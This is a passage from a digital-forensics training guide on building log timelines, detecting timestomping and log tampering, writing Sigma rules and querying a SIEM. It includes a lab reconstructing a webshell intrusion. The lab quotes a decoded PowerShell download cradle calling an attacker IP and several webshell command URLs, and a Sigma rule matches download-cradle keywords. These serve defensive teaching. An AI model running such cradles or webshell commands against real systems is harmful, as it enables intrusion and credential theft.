2. **WHERE** — pull every event involving `203.0.113.44`: the firewall
   shows it connected to three other hosts at 04:20 — lateral movement, new
   anchors.
3. **WHAT** — hash the binary `rundll32.exe` loaded; the hash matches a
   known loader in your intel — confirms tooling.
4. **WHEN** — everything ±10 minutes of 04:03 on that host: a Sysmon `10`
   (LSASS access) at 04:06 — credential dumping, explaining how they got
   creds for the lateral moves.

Each corner produced new anchors; iterate until the edges of the
intrusion stop producing new leads. The art is knowing when to stop —
when every new pivot only returns benign, baseline activity.

**Impossible-travel and velocity checks** are a special pivot on
WHO+WHERE+WHEN: the same account authenticating from two geographies
faster than a plane could carry a human is either shared credentials or
compromise. Enrichment with geo-IP (Part 7) makes this a one-query
check.

---

## Part 11: Timestomping, Log Tampering and Anti-Forensics

Attackers know you build timelines, so they attack the timestamps. You
must be able to detect when the record has been manipulated — because a
manipulated timeline that you trust is worse than no timeline.

**Timestomping** is altering a file's MACB timestamps (e.g. with
`timestomp`, PowerShell `Set-ItemProperty`, or `touch -d` on Linux) to
make a malicious file blend into the OS install date. The classic tells:

- On NTFS, every file has **two** sets of timestamps:
  `$STANDARD_INFORMATION` (`$SI`, what tools and the timestomp API change)
  and `$FILE_NAME` (`$FN`, harder to change, updated by the OS on
  rename/move). When `$SI` predates `$FN`, or `$SI` times are suspiciously
  round (`.000000000` nanoseconds) while neighbours have random
  nanoseconds, the file was stomped. Plaso surfaces both; compare them.

```bash
# Compare $SI vs $FN in a super timeline for one file
grep 'svc.dll' intrusion-window.csv | grep -E 'FILE'
# $SI Created 2019-... but $FN Created 2027-03-14 04:03 = stomped
```

- **Sequence-number sanity:** NTFS `$MFT` entry numbers and USN journal
  sequence numbers are monotonic; a file whose *content* timestamps
  predate the OS install but whose `$MFT` record number sits among files
  created last week is impossible naturally.
- **Nanosecond precision:** real OS timestamps have full-resolution
  sub-second values; API-set times are often zeroed. A cluster of
  `.0000000` files is a red flag.

**Log clearing and gaps.** Event `1102` (Security log cleared) and `104`
(other log cleared) are explicit anti-forensic acts. But smarter
attackers delete *selective* records or stop the service. Detect this
with:

- **`EventRecordID` gaps** — records are monotonic; a jump from 84120 to
  84139 means 18 records vanished from an otherwise contiguous stream.
- **Service-stop bracketing** — a `Windows Event Log` service stop
  (`System` event `7040`/`7036`) followed by a gap and a restart brackets
  a blind window the attacker created deliberately.
- **Cross-witness contradiction** — the firewall logs a connection at
  04:03 that the host's local logs have no trace of. The absence *is* the
  evidence.

On Linux, since text logs are trivially editable, corroborate with
journald's monotonic sequence and, where enabled, **Forward Secure
Sealing** (`journalctl --verify`), which cryptographically detects
post-hoc edits. auditd's own logs about auditd being stopped
(`type=DAEMON_END`) bracket blind windows too.

**The principle:** you cannot prove nothing was tampered, but you *can*
prove tampering happened, and you can build the timeline from the
witnesses the attacker could not reach. Always state in the report which
portions rest on tamper-resistant sources.

---

## Part 12: Sigma — Portable Detection Logic for Triage

When you have a normalised timeline, you want to run known-bad
detections across it fast. **Sigma** is the "write once, run anywhere"
rule format for log detections: a YAML rule describing a suspicious
pattern that a converter (`sigma`/`pySigma`) compiles into the query
language of your platform (Splunk SPL, Elastic DSL, OpenSearch, etc.).
Teach it from scratch: a Sigma rule names a `logsource`, a `detection`
(field/value selections and a `condition`), and metadata (title, level,
MITRE ATT&CK tags).

```yaml
title: Suspicious PowerShell Download Cradle
logsource:
  product: windows
  service: powershell
detection:
  selection:
    EventID: 4104
    ScriptBlockText|contains:
      - 'Net.WebClient'
      - 'DownloadString'
      - 'IEX'
  condition: selection
level: high
tags:
  - attack.execution
  - attack.t1059.001
```

Compile and run it against your data:

```bash
# Convert a Sigma rule to an Elasticsearch/OpenSearch query
sigma convert -t opensearch -p ecs_windows download_cradle.yml
# Or run a whole ruleset over EVTX offline with Chainsaw (below)
```

**Chainsaw** and **Hayabusa** are two fast tools that apply Sigma rules
directly to EVTX files offline — perfect for triage before you build a
full Plaso timeline:

```bash
# Chainsaw: hunt an EVTX folder with a Sigma ruleset + built-in detections
chainsaw hunt ./evtx_logs/ -s sigma_rules/ --mapping mappings/sigma-event-logs.yml \
  -r rules/ --csv --output triage/
```

The output is a triage CSV of every rule hit with timestamps — a
shortlist of the events worth pulling into the timeline. **Blue team
usage:** the same Sigma rules that triage a dead-box image run live in
the SIEM as detections, so investigation and monitoring share one
detection library. This is why Sigma has become the lingua franca of
detection engineering.

---

## Part 13a: Collection Order, Volatility and Chain of Custody for Logs

Before you can timeline logs, you have to *collect* them without
destroying evidence, and in the right order. RFC 3227 ("Guidelines for
Evidence Collection and Archiving") gives the **order of volatility** —
collect the most ephemeral evidence first, because the act of collecting
slower evidence can overwrite faster evidence.



For log evidence specifically, the practical order is: capture live
volatile state (memory, `netstat`, running processes — see the
memory-forensics chapter) *first*; then the on-disk logs; then pull the
centralised copies. The reason is subtle: if you reboot a Linux box to
image it, `journald` volatile logs held in `/run/log/journal` (tmpfs)
vanish, and any log buffered but not yet flushed is lost. Grab volatile
logs before you power down.

**Chain of custody for logs** means every collected log file gets:

- A **cryptographic hash at collection time**, recorded in a manifest, and
  re-verified before analysis and before court.
- A **provenance note**: which host, which path, collected by whom, when
  (in UTC), with what tool and version.
- **Write-once handling** — copy to read-only media or a WORM store;
  analyse only copies.

```bash
# Collect + hash + manifest in one pass
for f in Security.evtx System.evtx Sysmon.evtx auth.log; do
  sha256sum "$f" >> collection-manifest.txt
done
# Later, before analysis, prove nothing changed:
sha256sum -c collection-manifest.txt   # every line must say: OK
```

A single altered byte flips the hash, so a matching manifest is your
proof the timeline was built from unmodified evidence. **IR use case:**
when the incident may lead to litigation, insurance claims, or
law-enforcement referral, an unbroken, hashed chain of custody is the
difference between a report that stands up and one that gets thrown out.

---

## Part 13b: SIEM Query Patterns and Correlation

Most real investigations run against a SIEM, not raw files, so you must
think in query languages. The three you meet most are **Splunk SPL**,
**Elastic/Kibana (KQL + EQL)**, and **Microsoft Sentinel/Defender
(KQL)**. The concepts transfer; only the syntax changes.

**Search → filter → transform → correlate** is the universal shape. A
Splunk example that finds password-spray (many users, few attempts each,
one source):

```
index=windows EventCode=4625
| stats dc(Account_Name) as users, count as attempts by Source_Network_Address
| where users > 20 AND attempts < 100
| sort - users
```

`stats dc(...)` counts *distinct* usernames per source IP — spraying
hits many accounts with a few tries each, exactly the opposite shape of
brute force (one account, many tries). The same idea in Microsoft
**KQL** (Sentinel/Defender), which reads top-down like a pipeline:

```kql
SecurityEvent
| where EventID == 4625
| summarize users = dcount(TargetAccount), attempts = count() by IpAddress
| where users > 20 and attempts < 100
| sort by users desc
```

**Correlation** — joining two log sources on a shared key — is where
SIEM earns its keep. Elastic's **EQL** (Event Query Language) has a
`sequence` operator built for attacker chains: "a process creation
*followed by* an outbound network connection from that same process
within 1 minute":

```
sequence by process.entity_id with maxspan=1m
  [ process where process.name == "powershell.exe" and process.args : "*-enc*" ]
  [ network where destination.ip != "10.0.0.0/8" ]
```

`sequence by process.entity_id` ties the two events to the *same process
instance*; `maxspan=1m` bounds the window; the two bracketed sub-queries
are the ordered steps. This single query encodes "encoded PowerShell
that then beacons out" — an entire mini-timeline as one detection.
**Blue team usage:** correlation searches like this, saved and
scheduled, are how a SOC turns the manual pivoting of Part 10 into
automated alerts.

A quick cross-platform Rosetta table for the operations you use
constantly:

| Operation | Splunk SPL | Elastic KQL/EQL | Microsoft KQL |
|-----------|-----------|-----------------|---------------|
| Filter | `EventCode=4624` | `event.code:4624` | `where EventID == 4624` |
| Count by field | `stats count by src_ip` | `... | stats` (via agg) | `summarize count() by IpAddress` |
| Distinct count | `dc(user)` | `cardinality` | `dcount(user)` |
| Time window | `earliest=-24h` | `@timestamp >= now-24h` | `where TimeGenerated > ago(24h)` |
| Sequence/correlate | `transaction` | `sequence by ... with maxspan` | `join` / `partition` |

---

## Part 13: Hands-On Lab — From Triage Image to Attacker Narrative

This lab walks a complete, reproducible log-timeline investigation on a
triage collection from a compromised Windows web server (`web01`). Use
any DFIR practice image (e.g. a KAPE `!SANS_Triage` collection, or a
THM/HTB forensics room); the workflow is identical. Everything runs on a
Linux analysis workstation.

**Scenario.** SOC alerted on outbound traffic from `web01` to
`203.0.113.44`. You have a triage collection: `Security.evtx`,
`System.evtx`, the Sysmon and PowerShell channels, `$MFT`, and the IIS
access logs.

**Step 1 — establish the clock.** Confirm the host timezone before
anything else:

```bash
# From the SYSTEM hive in the triage set
reg_dump SYSTEM 'ControlSet001\Control\TimeZoneInformation'
# -> TimeZoneKeyName: "UTC"   (good — no offset math needed)
```

**Step 2 — fast triage with Chainsaw.** Get a shortlist of hits before
the heavy timeline build:

```bash
chainsaw hunt ./web01_triage/ -s sigma/ --mapping mappings/sigma-event-logs.yml --csv -o triage/
head triage/*.csv
```

Sample hits:

```
timestamp, detection, event_id, computer, detail
2027-03-14T03:41:19Z, "Webshell upload", 4104, web01, "shell.php written"
2027-03-14T03:58:22Z, "Service install from user dir", 7045, web01, "WinBackupSvc -> C:\Users\Public\svc.dll"
2027-03-14T04:06:02Z, "LSASS access", 10, web01, "svc.exe -> lsass.exe"
```

**Step 3 — find the entry point in the web logs.** The webshell hit
points at IIS:

```bash
grep -i 'shell.php' web01_triage/inetpub/logs/*.log | head
# 2027-03-14 03:41:19 POST /uploads/shell.php 200 203.0.113.44 curl/8.4.0
# First interactive command via the shell:
grep '203.0.113.44' web01_triage/inetpub/logs/*.log | grep 'shell.php?cmd=' | head
# ...shell.php?cmd=whoami  200
# ...shell.php?cmd=powershell%20-enc%20SQBFAFgA...
```

Entry vector confirmed: an uploaded PHP webshell, first touched at
03:41:19, used to run commands.

**Step 4 — build the super timeline for the window.**

```bash
log2timeline.py --storage-file web01.plaso -z UTC ./web01_triage/
psort.py -o l2tcsv web01.plaso \
  "date > '2027-03-14 03:40:00' AND date < '2027-03-14 04:30:00'" \
  -w web01-window.csv
wc -l web01-window.csv    # a few thousand rows, not millions
```

**Step 5 — decode the encoded command** seen in the web log and the
PowerShell channel:

```bash
echo 'SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQA...' | base64 -d | iconv -f UTF-16LE -t UTF-8
# IEX (New-Object Net.WebClient).DownloadString('http://203.0.113.44/svc.dll')
```

**Step 6 — assemble the narrative** by reading the interleaved timeline
and pivoting (four corners) on `svc-backup`, `203.0.113.44`, and
`svc.dll`:



**Step 7 — verify no timestomping** on the dropped DLL by comparing
`$SI` and `$FN`:

```bash
grep 'svc.dll' web01-window.csv | grep FILE
# $FN Created 2027-03-14 03:58:22 ; $SI Created 2019-03-19 (stomped to look old) => tampering confirmed
```

**Step 8 — write it up.** The final annotated timeline, every row
sourced:

| Time (UTC) | Event | Source | Meaning |
|-----------|-------|--------|---------|
| 03:41:19 | POST /uploads/shell.php 200 | IIS access log | Webshell uploaded — initial access |
| 03:42:03 | shell.php?cmd=whoami | IIS access log | First code execution |
| 03:57:41 | 4104 encoded download cradle | PowerShell Operational | Loader fetch initiated |
| 03:58:22 | svc.dll created (then stomped) | `$MFT` `$FN` vs `$SI` | Payload staged + anti-forensics |
| 03:58:41 | 7045 service "WinBackupSvc" | System.evtx | Persistence installed |
| 03:58:43 | svc.exe → 203.0.113.44:443 | Sysmon 3 | C2 beacon established |
| 04:06:02 | Sysmon 10 LSASS access | Sysmon | Credential dumping |
| 04:11:20 | 4720 account svc-backup2 created | Security.evtx | Secondary persistence |

That table is the deliverable: a defensible, time-ordered, source-cited
story from initial access to persistence, built entirely from logs and
filesystem timestamps.

---

## Part 14: Detection & Defense Angle

Everything above is investigation; this section is how a defender makes
the next investigation faster — or unnecessary. The recurring theme:
**investigations are only as good as the logs that existed before the
incident.** You cannot timeline what was never recorded.

**Log the right things, before you need them.**

- Enable **Sysmon** with a curated config (SwiftOnSecurity or Olaf
  Hartong's `sysmon-modular` are the community baselines) on every Windows
  endpoint — process, network, DNS, and image-load events are the backbone
  of endpoint timelines.
- Turn on **command-line auditing** (`4688` with process command line) and
  **PowerShell script-block logging** (`4104`) via GPO. Without them,
  `4688`/`4104` events exist but are hollow.
- On Linux, deploy an **auditd** rule set (execve, identity files,
  privileged commands) and prefer **journald** with persistent storage
  and, where feasible, FSS sealing.
- Capture **DNS query logs** at the resolver and **NetFlow/Zeek** at the
  perimeter — these are the tamper-resistant witnesses.
- In cloud, ensure **CloudTrail (all regions, management + data events)**,
  **VPC Flow Logs**, and **Entra/GCP audit logs** are on and shipped to a
  bucket/account the workload cannot delete.

**Centralise and protect the logs.** Forward everything to a SIEM or
central store *off the host*, ideally append-only, so a `1102` clear on
the endpoint doesn't erase the forwarded copy. The gap between "logged
locally" and "forwarded and retained" is where attackers live.

**Detect the anti-forensics themselves.** Alert on: event `1102`/`104`
(log cleared), Windows Event Log service stops, `EventRecordID` gaps,
auditd `DAEMON_END`, and files with zeroed-nanosecond timestamps in
system directories. These meta-events are high-signal because legitimate
users almost never trigger them.

**Detection engineering with Sigma closes the loop.** Every rule you
write to triage a dead-box timeline should also run live. Maintain the
ruleset in Sigma, version-controlled, mapped to MITRE ATT&CK, so
investigation findings continuously harden monitoring. The intrusion you
just timelined should become three Sigma rules that catch the next one
in minutes.

**Retention is a control.** Attackers dwell for weeks or months; a 7-day
log retention means the initial-access event is long gone by the time
you investigate. Retain authentication, process, DNS, and cloud audit
logs for at least the length of a realistic dwell time — 90 days
minimum, a year for high-value.

---

## Part 14b: Common Pitfalls

Even experienced analysts lose investigations to a handful of recurring
mistakes. Internalise these.

- **Timezone blindness.** Building a timeline from mixed-timezone sources
  without converting to UTC first. A DC in UTC, a workstation in local
  time, and a SIEM in yet another zone will silently mis-order events by
  hours. *Fix:* establish each host's clock (Part 1), convert everything
  to UTC at ingest, keep the original offset in a side field.
- **Trusting a single witness.** Concluding "the attacker logged off at
  05:00" from a `4634` alone, when the account was actually still active
  via a service logon. *Fix:* corroborate every key claim with an
  independent source, ideally one outside the host.
- **Ingest time ≠ event time.** Sorting on the SIEM's `_time`/index time
  instead of the event's real occurrence time. A backed-up forwarder can
  make events appear hours after they happened. *Fix:* always sort on the
  parsed event timestamp, and watch for large ingest-vs-event deltas —
  they themselves indicate a problem.
- **Dumping the whole super timeline.** Opening a 20-million-row `psort`
  output and drowning. *Fix:* always filter to a window and/or artifact
  type first; expand outward by pivoting, not by scrolling.
- **Ignoring the gaps.** Reading only the events that exist and missing
  that 18 records vanished mid-stream. *Fix:* check `EventRecordID`
  continuity and cross-witness contradictions; absence is evidence.
- **Analysing on the live victim.** Running heavy tooling on the
  compromised box, changing access times and tipping off the attacker.
  *Fix:* collect, hash, and analyse copies offline (`--directory`, mounted
  read-only images).
- **Confusing correlation with causation on the timeline.** Two events
  being adjacent in time does not prove one caused the other. *Fix:* look
  for a mechanistic link (same process ID, same session, same source IP),
  and label inferred links as inferred in the report.
- **Letting obfuscation win.** Seeing `-enc` base64 and moving on. *Fix:*
  always decode it (Part 4) — the decoded payload is usually the single
  most important line in the case.

---

## Part 15: Final Revision / Summary

- **A log line is testimony, not truth.** Weigh it like a witness —
  corroborate, never trust alone — and remember every event has multiple
  timestamps (occurred, recorded, forwarded, indexed); confusing them
  wrecks timelines.
- **Establish the clock first.** Timezone and skew for every host go at
  the top of your notes; convert everything to UTC before you interpret
  anything.
- **Know where evidence lives.** Windows Security/Sysmon/PowerShell, Linux
  auth/journald/auditd, web/DNS/firewall/NetFlow, and cloud control-plane
  logs — and prefer the witness furthest from attacker control.
- **Memorise the Windows IDs and Logon Types.**
  4624/4625/4648/4672/4688/4697/4720/1102, and Logon Type 3 (network/PtH)
  vs 10 (RDP) are the intrusion signal.
- **Normalise → unify to UTC → enrich → timeline.** A common schema
  (ECS/OSSEM) is what lets heterogeneous logs sort onto one axis; keep the
  raw record always.
- **The super timeline interleaves everything.** Plaso `log2timeline.py`
  builds it, `psort.py` filters it; the power is in seeing a file write, a
  service install, and a beacon within seconds of each other.
- **Timesketch scales it to a team;** pivot with the four corners
  (who/what/where/when); each fact becomes the next anchor.
- **Detect tampering.** `$SI` vs `$FN` mismatch and zeroed nanoseconds
  catch timestomping; `EventRecordID` gaps and log-clear events catch log
  manipulation; cross-witness contradiction catches both.
- **Sigma is the shared detection language** — triage dead boxes
  (Chainsaw/Hayabusa) and monitor live systems from one ruleset.
- **The deliverable is a sourced, time-ordered narrative**, honest about
  observed-vs-inferred links and about which portions rest on
  tamper-resistant sources.

---

## Part 16: Cheat Sheet / Quick Reference

**Establish the clock**

```bash
timedatectl                                  # Linux live timezone/skew
reg query "HKLM\SYSTEM\CurrentControlSet\Control\TimeZoneInformation"   # Windows
```

**Windows EVTX**

```bash
evtx_dump -o jsonl Security.evtx > sec.jsonl
jq 'select(.Event.System.EventID==4624)' sec.jsonl        # logons
# PowerShell live:
Get-WinEvent -FilterHashtable @{LogName='Security';Id=4625;StartTime=(Get-Date).AddDays(-1)}
```

**Key Windows Event IDs:** 4624 logon · 4625 fail · 4648 explicit creds
· 4672 admin · 4688 proc · 4697/7045 service · 4720 acct created · 1102
log cleared · 4769 Kerberos TGS. **Logon Types:** 3 network/PtH · 10 RDP
· 9 runas-netonly.

**Linux**

```bash
grep -E 'Accepted|Failed' /var/log/auth.log
journalctl --directory=/mnt/evi/var/log/journal --utc -o short-iso-precise
ausearch -i -m EXECVE --start 03/14/2027 03:00:00
```

**Cloud (CloudTrail)**

```bash
jq -r '.Records[]|select(.userIdentity.accessKeyId=="AKIA…")
       |[.eventTime,.eventName,.sourceIPAddress]|@tsv' ct.json | sort
```

**Super timeline (Plaso)**

```bash
log2timeline.py --storage-file c.plaso -z UTC /mnt/evidence/
psort.py -o l2tcsv c.plaso "date > 'YYYY-MM-DD HH:MM:SS' AND date < '…'" -w out.csv
```

**Triage with Sigma**

```bash
chainsaw hunt ./evtx/ -s sigma/ --mapping mappings/sigma-event-logs.yml --csv -o triage/
```

**Timestomp check:** compare `$SI` vs `$FN` creation times; suspect
zeroed nanoseconds.
**Tamper check:** `EventRecordID` gaps · event 1102/104 · Event Log
service stop · auditd DAEMON_END.

---

## Part 16b: Memory Hooks

A few analogies that make the concepts stick:

- **Logs are witnesses, the timeline is the trial.** You don't convict on
  one witness; you build a corroborated story from many, and you note
  which witnesses the defendant could have got to.
- **UTC is sea level.** Every host reports its own "altitude" (timezone);
  convert everything to sea level before you compare heights, or your map
  is nonsense.
- **The super timeline is a zip merge.** Filesystem times, event logs,
  registry, and browser history are separate sorted lists; Plaso zips them
  into one, and the story lives in the interleaving.
- **Four corners = a spider on a web.** Land on one thread (an event),
  feel along who/what/where/when to the next junction, and repeat until
  the web stops.
- **`$SI` lies, `$FN` tells the truth.** When a file's two birth
  certificates disagree, believe the one that's harder to forge.

---

## Part 17: Practice Labs & Resources

- **DFIR super-timeline practice:** the **Plaso "test image"** and the
  **SANS SIFT Workstation** ship with Plaso, Timesketch, and sample images
  — build a full `log2timeline`/`psort` timeline end to end.
- **TryHackMe:** "Investigating Windows," "Windows Event Logs," "Splunk"
  series, and "Sysmon" rooms drill Event ID reading and log queries
  hands-on.
- **TryHackMe / Blue Team Labs Online:** "Timeline Analysis" and "Log
  Analysis" challenges give you raw logs and ask for the attacker
  narrative.
- **HackTheBox Sherlocks:** the DFIR "Sherlock" challenges (e.g. the
  Windows/log-analysis ones) are purpose-built log-timeline investigations
  with a scored answer key.
- **Timesketch:** import the public **Greendale** demo dataset from the
  Timesketch docs and practise tagging, pivoting, and building a Story.
- **Sigma / Chainsaw:** clone the **SigmaHQ** rule repo and run
  **Chainsaw** or **Hayabusa** against the **EVTX-ATTACK-SAMPLES** repo
  (thousands of labelled malicious EVTX files) to see rules fire on real
  attacker behaviour.
- **CyberDefenders:** blue-team labs such as "Web Investigation" and
  various endpoint cases provide realistic multi-source logs to timeline.
- **DeepBlueCLI / APT-Hunter:** run these over the same EVTX samples for a
  second opinion and to learn what "known-bad in logs" looks like.
- **AWS CloudTrail practice:** the **flaws.cloud** and **CloudGoat**
  scenarios generate real CloudTrail you can investigate; replay an
  attack, then reconstruct it purely from the audit log to build
  cloud-timeline reflexes.

The next chapter puts every skill in this notebook together: a full
ransomware and breach investigation case study, from first alert to a
complete, timelined incident report.
